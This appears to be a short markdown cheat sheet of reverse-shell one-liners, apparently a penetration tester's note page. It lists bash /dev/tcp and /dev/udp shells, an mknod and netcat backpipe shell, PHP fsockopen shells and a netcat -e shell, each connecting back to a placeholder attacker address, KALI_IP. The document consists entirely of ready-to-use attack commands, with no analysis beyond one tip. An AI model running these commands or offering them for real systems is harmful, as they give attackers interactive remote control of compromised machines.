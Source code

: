 ```yaml
---
title: 
description: 
draft: 
tags: 
date: 2024-10-18
---
```


## Bash

```bash
sh -i >& /dev/tcp/KALI_IP/9999 0>&1
```

```bash
sh -i >& /dev/udp/KALI_IP/9999 0>&1
```

## mknod

```bash
mknod backpipe p; nc KALI_IP 9999 0<backpipe | /bin/bash 1>backpipe
```
>[!tip]
>This reverse shell typically works well when bash reverse shells aren't available.
## PHP

#### Command line:
```bash
php -r '$sock=fsockopen("KALI_IP",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9001);shell_exec("sh <&3 >&3 2>&3");'
```

## Netcat
```bash
nc KALI_IP 9001 -e sh
```


